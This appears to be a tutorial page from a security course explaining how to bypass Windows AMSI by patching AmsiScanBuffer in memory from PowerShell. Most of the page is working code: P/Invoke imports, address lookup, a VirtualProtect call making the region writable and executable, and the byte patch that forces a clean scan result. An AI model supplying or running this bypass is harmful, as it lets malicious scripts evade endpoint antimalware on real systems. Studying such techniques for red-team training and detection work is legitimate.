 # AMSI Patching: Runtime Detection Evasion

AMSI is primarily instrumented and loaded from `amsi.dll`. This can be confirmed from the diagram we observed earlier. This DLL can be abused and forced to point to a response code we want. The `AmsiScanBuffer` function provides the hooks and functionality needed to access the pointer/buffer for the response code.

`AmsiScanBuffer` is vulnerable because `amsi.dll` is loaded into the PowerShell process at startup, and our session has the same permission level as the utility.

`AmsiScanBuffer` scans a "buffer" of suspected code and reports it to `amsi.dll` to determine the response. We can control this function and overwrite the buffer with a clean return code. The buffer needed for the return code has already been identified through prior research and reverse engineering.

We will break down a code snippet modified by BC-Security and inspired by Tal Liberman. RastaMouse also has a similar bypass written in C# using the same technique.

## High-Level AMSI Patching Steps

1. Obtain handle of `amsi.dll`
2. Get process address of `AmsiScanBuffer`
3. Modify memory protections of `AmsiScanBuffer`
4. Write opcodes to `AmsiScanBuffer`

---

## Step 1: Import Required API Functions

We need to load external libraries or API calls using P/Invoke. The following functions are imported from `kernel32.dll`:

```csharp
[DllImport("kernel32")]
public static extern IntPtr GetProcAddress(
    IntPtr hModule,
    string procName
);

[DllImport("kernel32")]
public static extern IntPtr GetModuleHandle(
    string lpModuleName
);

[DllImport("kernel32")]
public static extern bool VirtualProtect(
    IntPtr lpAddress,
    UIntPtr dwSize,
    uint flNewProtect,
    out uint lpflOldProtect
);
```

These functions are then loaded using PowerShell's `Add-Type` cmdlet:

```powershell
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -Namespace 'Win32' -PassThru
```

---

## Step 2: Locate `amsi.dll` and `AmsiScanBuffer`

Identify the process handle of AMSI using `GetModuleHandle`, then use it to get the address of `AmsiScanBuffer`:

```powershell
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll')
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, 'AmsiScanBuffer')
```

---

## Step 3: Modify Memory Protections

Change the memory protection of the `AmsiScanBuffer` region using `VirtualProtect`:

```powershell
[UInt32]$Size = 0x5         # Size of region
[UInt32]$ProtectFlag = 0x40 # PAGE_EXECUTE_READWRITE
[UInt32]$OldProtectFlag = 0
[Win32.Kernel32]::VirtualProtect(
    $BufferAddress,
    $Size,
    $ProtectFlag,
    [Ref]$OldProtectFlag
)
```

---

## Step 4: Overwrite the Buffer

Specify the buffer to overwrite and use `Marshal.Copy` to write to the process:

```powershell
$buf = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy(
    $buf,
    0,
    $BufferAddress,
    6
)
```

---

## Conclusion

At this stage, you should have an AMSI bypass that works. However, note that most tooling can detect this script, as signatures and detections are often crafted for such techniques.